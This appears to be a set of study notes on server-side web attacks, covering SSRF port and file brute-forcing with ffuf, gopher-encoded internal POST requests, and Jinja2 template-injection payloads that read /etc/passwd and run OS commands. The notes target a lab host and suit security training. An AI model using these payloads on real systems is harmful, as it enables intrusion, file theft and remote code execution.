

# SS Attacks

Server-Side Request Forgery (SSRF)
Server-Side Template Injection (SSTI)
Server-Side Includes (SSI) Injection
eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection

## SSRF

SSR is when a web application calls another web server, we can try to identify the request by using out ip and create an HTTP server. and then brute force incoming localhost ports wiht in the server.

```bash
seq 1 10000 > ports.txt
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

We can try LFI 

```bash
file:///etc/passwd
```

or we can try to brute foce internal files within the app
```bash
 ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```


### The gopher Protocol

SSRF is restricted to GET requests, what if we have a POST ? 

let's assume with our brute force we found /admin.php and it takes a POST request

Instead, we can use the gopher URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves.

The normal request will be as follow:

    POST /admin.php HTTP/1.1
    Host: dateserver.htb
    Content-Length: 13
    Content-Type: application/x-www-form-urlencoded

    adminpw=admin

the gopher request will be as follow:

    gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin

and the payload will be, the data server is the payload will be sending to the backend.

    POST /index.php HTTP/1.1
    Host: 172.17.0.2
    Content-Length: 265
    Content-Type: application/x-www-form-urlencoded

    dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01

This github code, generates gopher payloads:

https://github.com/tarunkant/Gopherus

Likewise for all other protocols : REDIS, SMTP ...

## SSTI

As the name suggests, Server-side Template Injection (SSTI) occurs when an attacker can inject templating code into a template that is later rendered by the server. If an attacker injects malicious code, the server potentially executes the code during the rendering process, enabling an attacker to take over the server completely.



to detect it we inject one of the following char `${{<%[%'"}}%\.`

### Exploiting JINJA2

for information disclosure: 

```python
{{ config.items() }}
```

Since this payload dumps the entire web application configuration, including any used secret keys, we can prepare further attacks using the obtained information. We can also execute Python code to obtain information about the web application's source code. We can use the following SSTI payload to dump all available built-in functions:

```python
{{ self.__init__.__globals__.__builtins__ }}
```
We can use this to have an LFI or RCE.

```python
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

NO need to write, CF payloadallthings

a handy tool to test for ssti :

https://github.com/vladko312/SSTImap
## SSI

Server-Side Includes (SSI) is a technology web applications use to create dynamic content on HTML pages. SSI is supported by many popular web servers such as Apache and IIS. The use of SSI can often be inferred from the file extension. Typical file extensions include .shtml, .shtm, and .stm. However, web servers can be configured to support SSI directives in arbitrary file extensions. As such, we cannot conclusively conclude whether SSI is used only from the file extension.